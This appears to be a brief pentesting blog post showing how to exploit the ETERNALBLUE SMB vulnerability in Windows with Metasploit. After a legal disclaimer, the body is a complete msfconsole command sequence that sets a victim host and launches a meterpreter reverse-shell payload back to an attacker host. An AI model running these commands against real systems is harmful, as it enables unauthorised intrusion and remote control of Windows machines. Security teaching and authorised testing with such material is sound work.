 ```yaml
---
layout: post
title: "Exploit ETERNALBLUE with Metasploit"
tags: [metasploit,eternalblue,smb,pentesting,windows]
---
```


> **Disclaimer**: Only use this in your own environment.
> Using this exploit against other people's systems is *illegal*!

Run `msfconsole`:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set rhost <VICTIM_IP>
set lhost <ATTACKER_IP>
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

---
